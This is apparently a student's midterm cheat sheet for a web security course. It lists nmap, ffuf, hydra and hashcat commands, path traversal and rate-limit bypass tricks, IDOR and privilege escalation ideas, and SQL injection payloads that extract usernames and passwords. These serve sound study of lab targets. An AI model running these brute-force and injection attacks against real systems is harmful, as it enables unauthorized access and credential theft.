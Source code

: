 # MidTerm Stuff

`nmap -v1 localhost` - Scan top 100 ports.
`nmap -sV localhost` - Service fingerprinting.  
`nmap -sV -sC localhost` - Run scripts in default category.  
`nmap -sV -script <type> localhost` - Run scripts in <type> category.  

`ffuf -u <http://target-url> -w <wordlist>`
  + `FUZZ` in payload gets replaced by stuff in wordlists.
  + `-r` follow redirects.
  + `-X <method>` http method.
  + `-mc 200-299,301` http status codes to match.
  + `ffuf -u http://localhost:9000/FUZZ -r -w <wordlist>`  
`ffuf -u <url> -X POST -H "<Header>: <Value>" -d "?uname=abc&pwd=FUZZ OR json data"`  

### File Attacks

+ Fuzzer useful for all
+ Open Redirect
+ Local File inclusion
+ Directory/Path traversal
  - Multiple `../../../`
  - Multiple `......`
  - Leading or no leading `/`
  - Encoded versions
  - Double (or multiple) escapes/leading '/'
+ Consider sources of attack:
  - URL
  - HTML Attributes
  - HTTP Post Data
  - Cookies
  - Database Data
  - User Input
+ Looking for:
  - sys files (usernames, hashed passwords, possible services (config files))
  - app source code (may have db passwords, api keys)
  - sensitive data database contents
+ [`/proc` stuff](https://docs.google.com/presentation/d/1lP0_OJQ0rZo0oMeR6apAzTnEMjMl-5ufzEkyk2RdaUY/edit#slide=id.g29ea2f95244_0_9)

### Broken Auth/Access Control

+ Consider error messages.
+ Consider returned status codes.
+ Brute force.
+ Dictionary attacks.
+ Dictionary + Mutations.

`hydra -l <username> -P <password-list> <base-url>`  
`hydra -l <...> -P <...> ssh://<ip-address>`  
`hydra -l <...> -P <...> <host-ip> mysql` - mysql login  
`hydra -l <user> -P <pass-list> localhost:9000 http-post-form "login-page.php:login=^USER^&password=^PASS^:H=Cookie: PHPSESSID=<abcdef>; other=blah:F=Invalid"`  
`hydra -l bee -x 3:3:abcug -y -f localhost http-post-form "/ba_pwd_attacks_1.php:login=^USER^&password=^PASS^&form=submit:H=Cookie: PHPSESSID=ardlvcaurvgd27mu5t8oeafql7; security_level=0:F=Invalid"`  
See: https://github.com/CSCI3540U/lab-06-Jaime-Barillas/blob/main/steps.md?plain=1  
Or use burpsuite intruder

+ Bypass rate limits linked to user:
  - abc@gmail.com%20
  - abc@gmail.com%00
  - %0a, %0d, %0a%0d, %09, %0c, %20%20
+ Same password but different emails.
+ gmail '+' plus addressing

Side Note: Double escaping urlencode: %25 = "%" i.e. %2500 when decoded = "%00"

`hashcat --force <password-list> -r </usr/share/hashcat/rules/...> --stdout | sort -u`

+ Password reset attacks: Reset token may be leaked in Referer HTTP header for ad tracking requests.
+ Pass the Hash attacks.

#### IDOR

+ `/order-status?id=1772` -> try: `/order-status?id=1771`
+ potentially references to:
  - DB data.
  - In memory stuff.
  - Files.
  - etc.

#### Session Attacks

+ Guessing the session id.

#### Privilege Escalation

+ Role based: is the role stored in a cookie or parameter?
+ Bypass form, submit post data to endpoint (maybe the don't secure the endpoint?)
+ Change e-mail address or password.

### SQL Injection

`abc' OR 1=1 --`  
`' UNION SELECT * FROM <table>`  
+ [SQLMap stuff](https://docs.google.com/presentation/d/1m4mrYgWkYpODDIoGm5Sx4tPQmmLC5H0kI85AF_aBGQc/edit#slide=id.g2afd1e15106_0_254)
+ Store SQLi.
+ Blind SQLi.
+ When exploiting:
  - SELECT statements:
    * WHERE clause
    * table or column name
    * ORDER BY clause
  - UPDATE:
    * the updated values
    * WHERE clause
  - INSERT:
    * the inserted values
+ Common Variants:
  - Viewing hidden data:
    * `SELECT * from tbl where color = 'green' AND membersOnly = 0` =>
    * `SELECT * from tbl where color = 'green' AND membersOnly = 1 --' membersOnly = 0`
  - Viewing structure of database:
    * `SELECT uname FROM Login WHERE uname = 'bsmith' AND password IN (SELECT TABLE_NAME FROM information_schema.tables) --AND password=''`
  - Viewing data from other tables:
    * `SELECT title, description FROM Products WHERE category = 'Electronics' UNION SELECT username, password FROM Login--'`
+ Discovering Database brand/version:
  - SQL Server, MySQL, MariaDB - SELECT @@version
  - Oracle - SELECT banner FROM v$version
  - PostgreSQL - SELECT version()
+ Finding names of tables in database:
  - `... UNION SELECT TABLE_NAME FROM information_schema.tables--`
+ Finding number of columns in a table:
  - `... UNION SELECT * FROM table ORDER BY 1-- 2, 3, etc.`
+ Select multiple columns:
  - `... UNION SELECT col1 || '|' || col2 FROM sometable--`
+ [More (hacktricks)](https://book.hacktricks.xyz/pentesting-web/sql-injection)

